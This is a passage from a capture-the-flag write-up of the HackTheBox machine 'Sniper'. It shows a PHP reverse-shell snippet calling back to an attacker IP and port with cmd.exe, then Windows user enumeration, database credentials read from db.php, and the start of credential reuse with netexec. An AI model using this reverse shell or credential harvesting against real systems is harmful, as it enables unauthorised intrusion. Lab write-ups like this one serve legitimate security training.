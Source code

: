 ~~~php
private $addr  = "10.10.14.2";
private $port  = 1337;
private $os    = "WINDOWS";
private $shell = "cmd.exe";

$sh = new Shell('10.10.14.2', 1337);
$sh->run();
unset($sh);
~~~

After accessing it I receive a shell as `iis apppool\defaultapppool`.

![](@assets/HackTheBox/Sniper/7.png)

## Pivoting to Chris

There is only one user called `Chris` apart from the `Administrator`.

~~~cmd
C:\inetpub\wwwroot\user>dir c:\users\
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of c:\users

04/11/2019  06:04 AM    <DIR>          .
04/11/2019  06:04 AM    <DIR>          ..
04/09/2019  05:47 AM    <DIR>          Administrator
04/11/2019  06:04 AM    <DIR>          Chris
04/09/2019  05:47 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   2,370,813,952 bytes free
~~~

I found a file with some creds for a mysql database:

~~~cmd
C:\inetpub\wwwroot\user>type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
~~~

But as mysql didnt seem to be installed I tried validating those creds for local users with `netexec`:

![](@assets/HackTheBox/Sniper/8.png)
